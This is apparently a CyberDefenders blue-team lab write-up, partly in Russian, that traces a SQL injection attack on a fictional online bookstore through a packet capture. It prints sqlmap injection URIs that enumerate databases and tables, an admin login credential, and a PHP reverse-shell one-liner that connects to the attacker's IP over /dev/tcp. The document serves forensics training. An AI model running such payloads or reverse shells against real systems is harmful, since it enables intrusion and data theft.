

## Cyberdefenders: Web Investigation Blue Team Lab

**Category**: Network Forensics (PCAP, Wireshark, SQL)

---
## [0x01] Scenario

You are a cybersecurity analyst working in the Security Operations Center (SOC) of BookWorld, an expansive online bookstore renowned for its vast selection of literature. BookWorld prides itself on providing a seamless and secure shopping experience for book enthusiasts around the globe. Recently, you've been tasked with reinforcing the company's cybersecurity posture, monitoring network traffic, and ensuring that the digital environment remains safe from threats.  
  
Late one evening, an automated alert is triggered by an unusual spike in database queries and server resource usage, indicating potential malicious activity. This anomaly raises concerns about the integrity of BookWorld's customer data and internal systems, prompting an immediate and thorough investigation.  
  
As the lead analyst on this case, you are required to analyze the network traffic to uncover the nature of the suspicious activity. Your objectives include identifying the attack vector, assessing the scope of any potential data breach, and determining if the attacker gained further access to BookWorld's internal systems.  

---
## [0x02] Tools

- Wireshark
- Network Miner

---
## [0x03] Write-Up

---
**Question 1**: By knowing the attacker's IP, we can analyze all logs and actions related to that IP and determine the extent of the attack, the duration of the attack, and the techniques used. Can you provide the attacker's IP?

Исходным файлом является файл с названием `WebInvestigation.pcap`, который содержит в себе пакеты захваченного трафика. Первичный осмотр файла показывает, что на веб-ресурс `http://bookworldstore.com` обращается несколько клиентов. Например, клиент, имеющий IP-адрес `73.124.22.98` реализует поиск информации на сайте, используя при этом конечный ресурс `search.php?search=`. Для проверки необходимо найти пакет №245:


>Для того, чтобы просмотреть содержимое пакета, необходимо нажать правой кнопкой мыши на найденный пакет в потоке трафика, далее проследовать в меню "Отслеживать", а затем нажать на "HTTP Stream"

Содержимое пакета №245:


Просматривая трафик далее, стоит отметить, что клиент с IP-адресом `111.224.250.131` реализует вредоносные запросы, внедряя в них SQL-инструкции (пакет №357):



**Answer 1**: `111.224.250.131`

---
**Question 2**: If the geographical origin of an IP address is known to be from a region that has no business or expected traffic with our network, this can be an indicator of a targeted attack. Can you determine the origin city of the attacker?

Для того, чтобы определить местоположение по найденному IP-адресу, необходимо воспользоваться сервисом `whois`, который раскрывает информацию о зарегистрированном белом IP-адресе

>https://whois.ru/111.224.250.131

Среди всей информации необходимо найти данные об адресе (местоположении):


**Answer 2**: `Shijiazhuang`

---
**Question 3**: Identifying the exploited script allows security teams to understand exactly which vulnerability was used in the attack. This knowledge is critical for finding the appropriate patch or workaround to close the security gap and prevent future exploitation. Can you provide the vulnerable script name?

Как уже выявлено ранее, злоумышленник обращается к `http://bookworldstore.com` и реализует SQL-запросы в параметре `?search=`, который обрабатывает скрипт `search.php`:


Инструмент, используемый злоумышленником - `sqlmap/1.8.3#stable`

**Answer 3**: `search.php`

---
**Question 4**: Establishing the timeline of an attack, starting from the initial exploitation attempt, What's the complete request URI of the first SQLi attempt by the attacker?

Первая SQL-инъекция на сайте реализована следующая:

```
/search.php?search=book%20and%201=1;%20--%20-
```

Это подтверждает TCP-поток №36 (`tcp.stream eq 36`), пакет №357:


**Answer 4**: `/search.php?search=book%20and%201=1;%20--%20-`

---
**Question 5**: Can you provide the complete request URI that was used to read the web server available databases?

В ходе анализа SQL-запросов из захваченного трафика выявлено, что злоумышленник получил список баз данных при помощи следующего запроса:

```
/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-
```

Вышеописанный факт подтверждается результатом поиска информации на сайте - ресурс выдан список таблиц при реализации SQL-запроса со стороны злоумышленника, что подтверждает пакет №1525 (TCP-поток №151):


Список полученных таблиц:

```
["mysql", "information_schema", "performance_schema", "sys", "bookworld_db"]
```

**Answer 5**: `/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-`

---
**Question 6**: Assessing the impact of the breach and data access is crucial, including the potential harm to the organization's reputation. What's the table name containing the website users data?

Дальнейшие действия злоумышленника позволили ему получить список таблиц в базах данных:

```
/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Ctable_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%20IN%20%280x626f6f6b776f726c645f6462%29--%20-
```

Подтверждается упомянутый факт исследованием результатов вредоносных запросов, обнаруженных в HTTP-потоке №154 и №157:


**Answer 6**: `customers`

---
**Question 7**: The website directories hidden from the public could serve as an unauthorized access point or contain sensitive functionalities not intended for public access. Can you provide name of the directory discovered by the attacker?

Дальнейшие действия злоумышленника направлены на исследование директорий веб-ресурса `bookworldstore.com` при помощи инструмента `gobuster/3.6`, что подтверждает HTTP-поток №168:


Для того, чтобы понять, к какой критической директории злоумышленник получил доступ, необходимо произвести экспорт HTTP-объектов. Сделать это необходимо, перейдя в меню "Файл" => "Экспортировать объекты" => "HTTP" и реализовать фильтрацию HTTP-объектов по размеру ответа: 


Можно заметить, что множество ответов от сервера на наличие директории имеют размер `283 bytes`, что свидетельствует о том, что на ресурсе нет запрашиваемой со стороны злоумышленника директории. В свою очередь, некоторые директории, включая директорию `/admin` имеют другую размерность, что свидетельствует о наличии директории на веб-ресурсе.

**Answer 7**: `/admin/`

---
**Question 8**: Knowing which credentials were used allows us to determine the extent of account compromise. What's the credentials used by the attacker for logging in?

После нахождения директории `/admin`, злоумышленник обнаружил форму входа `/admin/login.php`. Для входа на ресурс злоумышленник использован следующие данные для входа - `admin:admin123!`. Обнаружение входа подтверждается отслеживанием потока HTTP №647. При вводе указанных аутентификационных данных произошло перенаправление на `/admin/index.php`, что свидетельствует об успешном входе на панель администратора веб-ресурса: 


**Answer 8**: `admin:admin123!`

---
**Question 9**: We need to determine if the attacker gained further access or control on our web server. What's the name of the malicious script uploaded by the attacker?

С целью дальнейшей эксплуатации и закрепления на веб-ресурсе злоумышленник загрузил PHP-скрипт, реализующий технику Reverse Shell (HTTP-поток №650):


Идентификация вредоносного файла:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>
```

**Answer 8**: `NVri2vhp.php`

---